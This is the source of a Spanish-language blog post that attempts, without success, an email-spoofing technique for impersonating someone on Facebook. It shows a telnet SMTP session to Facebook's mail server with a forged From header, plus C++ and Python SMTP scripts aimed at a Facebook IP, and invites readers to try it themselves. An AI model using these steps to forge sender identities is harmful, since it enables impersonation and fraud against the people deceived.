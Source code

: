 ```yaml
---
id: 744
title: Suplantación de identidad en Facebook

layout: post
guid: /?p=744
permalink: /suplantacion-de-identidad-en-facebook/
if_slider_image:
  - 
  - 
categories:
  - seguridad
tags:
  - email spoofing
  - seguridad
  - smtp
  - spoofing facebook
format: aside
---
```

Leyendo el blog de <a href="http://www.elladodelmal.com/" target="_blank">Chema Alonso</a> me he encontrado con una entrada interesante que, aunque no he logrado realizarla al 100% quiero compartirla con vosotros para que lo intente quien quiera.

El método consiste en conseguir 3 cosas:

*La dirección de correo de la persona a suplantar.*  
*Dirección de correo de facebook de la persona a quién se va a engañar.*  
*Un sistema para enviar correos SMTP*

Los pasos a seguir podéis leerlos en la entrada de <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Chema: Suplantación de identidad en Facebook</a>

Voy a explicar lo que yo he hecho:

Al principio al establecer comunicación mediante telnet por el puerto 25 (el de SMTP) y escribrir los comandos siempre recibía el siguiente error:

{% highlight bash %}<strong>550 5.6.0 Invalid header found (see RFC2822 section 3.6)</strong>{% endhighlight %}

Tras buscar un poco el motivo descubrí que se debía a que me estaba saltando algunas cabeceras del protocolo, concretamente *From, To * y *Date.*

En resumen, todo el proceso queda como sigue:  
  
<!--ad-->

{% highlight bash %}telnet smtpin.mx.facebook.com smtp
Trying 69.171.244.11...
Connected to smtpin.mx.facebook.com.
Escape character is '^]'.
220 smtpin.mx.facebook.com ESMTP
HELO client.facebook.com
250 smtpin.mx.facebook.com says HELO to xx.xxx.xxx.xx:xxxxx
MAIL from: 
250 MAIL FROM accepted
RCPT to: 
250 RCPT TO accepted
DATA
354 continue.  finished with "rn.rn"
From: xxxxx@xxxxx.xxx
To: xxxxxx@facebook.com
Subject: Test
Date: xxx, xx xxx xxxx xx:xx:xx -xxxx

This is an example
.
450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host.{% endhighlight %}

Pero sigo recibiendo un error (*450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later  
Connection closed by foreign host*)

También probé con dos programas (sin éxito), uno en[ C++][1] y otro en [python][2] que encontré en stackoverflow:

{% highlight cpp %}#include <iostream>
     #include <sys /types.h>
     #include </sys><sys /socket.h>
     #include <netinet /in.h>
     #include <netdb .h>
     #include <stdio .h>
     #include <string .h>
     using namespace std;
     #define HELO "HELO xxxxxx@xxxx.xxxxrn"
     #define DATA "DATArn"
     #define QUIT "QUITrn"

    //#define h_addr h_addr_list[0]
    //FILE *fin;
    int sock;
    struct sockaddr_in server;
    struct hostent *hp, *gethostbyname();
    char buf[BUFSIZ+1];
    int len;
    char *host_id="69.171.244.12";
    char *from_id="********";
    char *to_id="*******";
    char *sub="testmailrn";
    char wkstr[100]="hello how r urn";

    /*=====Send a string to the socket=====*/

    void send_socket(char *s)
    {
        write(sock,s,strlen(s));
        write(1,s,strlen(s));
        //printf("Client:%sn",s);
    }

    //=====Read a string from the socket=====*/

    void read_socket()
    {
        len = read(sock,buf,BUFSIZ);
        write(1,buf,len);
      //printf("Server:%sn",buf);
    }

    /*=====MAIN=====*/
    int main(int argc, char* argv[])
    {

    /*=====Create Socket=====*/
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock==-1)
    {
     perror("opening stream socket");
     return 1;
    }
    else
      cout < < "socket createdn";
    /*=====Verify host=====*/
    server.sin_family = AF_INET;
    hp = gethostbyname(host_id);
    if (hp==(struct hostent *) 0)
    {
     fprintf(stderr, "%s: unknown hostn", host_id);
     return 2;
    }

    /*=====Connect to port 25 on remote host=====*/
    memcpy((char *) &server.sin_addr, (char *) hp->h_addr, hp->h_length);
    server.sin_port=htons(25); /* SMTP PORT */
    if (connect(sock, (struct sockaddr *) &server, sizeof server)==-1)
    {
     perror("connecting stream socket");
     return 1;
    }
    else
      cout < < "Connectedn";
    /*=====Write some data then read some =====*/
    read_socket(); /* SMTP Server logon string */
    send_socket(HELO); /* introduce ourselves */
    read_socket(); /*Read reply */
    send_socket("MAIL FROM: "); 
    send_socket(from_id);
    send_socket("rn");
    read_socket(); /* Sender OK */
    send_socket("VRFY ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); // Sender OK */
    send_socket("RCPT TO: "); /*Mail to*/
    send_socket(to_id);
    send_socket("rn");
    read_socket(); // Recipient OK*/
    send_socket(DATA);// body to follow*/
    send_socket("Subject: ");
    send_socket(sub);
    read_socket(); // Recipient OK*/
    send_socket(wkstr);
    send_socket(".rn");
    read_socket(); 
    send_socket(QUIT); /* quit */
    read_socket(); // log off */

    //=====Close socket and finish=====*/
    close(sock);
    return 0;
  }
{% endhighlight %}

La versión en python:

{% highlight python %}#!/usr/bin/python

import smtplib
import sys
import os

sender = 'xxxxx@xxxxx.com'
receivers = ['xxxxx@facebook.com']

message = """From: From Person 
To: To Person 
Subject: SMTP e-mail test
This is a test e-mail message.
"""

try:
   smtpObj = smtplib.SMTP('69.171.244.12')
   smtpObj.sendmail(sender, receivers, message)         
   print "Successfully sent email"
except Exception, exc:
   sys.exit( "mail failed; %s" % str(exc) ) # give a error message{% endhighlight %}

Esto es todo, por más que lo he intentado no lo he logrado, si os animáis a probarlo y lo conseguís, agradecería que lo comentárais.

##### Fuente: <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Elladodelmal</a>

</string></stdio></netdb></netinet></sys></iostream>



 [1]: /c/
 [2]: /programacion/python

{% include _toc.html %}

